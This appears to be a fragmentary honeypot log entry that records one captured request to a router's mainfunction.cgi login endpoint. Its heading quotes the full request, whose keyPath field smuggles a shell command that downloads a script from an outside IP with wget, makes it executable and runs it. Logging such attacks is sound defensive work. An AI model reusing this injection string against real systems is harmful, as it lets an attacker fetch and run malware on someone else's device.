# Analysis for /cgibin/mainfunction.cgi&action=login&keyPath=wget+http%3A%2F%2F108.174.62.168%2Fsnype.sh+%3B+chmod+777+snype.sh+%3B+sh+snype.sh&loginUser=a&loginPwd=a
| POTS | COUNT | CVE | FILE CREATED |
|---|---|---|---|
| 1 | 1 | | 220110-033755 |

## CVE: 